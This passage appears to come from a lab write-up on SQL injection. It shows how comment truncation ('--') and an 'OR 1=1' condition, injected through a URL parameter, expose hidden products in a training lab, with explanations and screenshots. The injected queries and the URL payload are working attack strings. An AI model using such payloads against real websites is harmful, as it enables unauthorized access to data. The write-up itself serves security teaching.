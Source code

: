 <br/>

**Injected Query:**


```sql
SELECT * FROM products WHERE category = 'Accessories'--' AND released = 1
```

- This comments out the portion of the query where `**released = 1**`** , **therefore displaying all the unreleased products as well.

<br/>

<br/>

![2a79c5c2_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/3cda2c6e-9282-4f1c-8d29-8da01ca82f5e)

- Successful attempt at retrieving hidden data

<br/>

### Example 2:

Instead of just retrieving all items which are released and unreleased from a single category, an attacker can also create another query which allows the attacker to display all items from all categories.

<br/>

**Injection in URL Bar:**


```sql
https://insecure-website.com/products?category=Accessories'+OR+1=1--
```

<br/>

**Full Query:**


```sql
SELECT * FROM products WHERE category = 'Accessories' OR 1=1--' AND released = 1
```

<br/>

The query above will essentially check if the category is ‘Accessories’ or `1=1` and comment out the rest of the query where `released = 1` . As a result, this will display items from all categories including those which are unreleased. 

<br/>

![341230e5_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/47485ba4-5676-48dd-b5e3-e03af9a3677a)

- Successful injection attempt at retrieving data from all categories

<br/>

## Lab: SQL injection vulnerability allowing login bypass
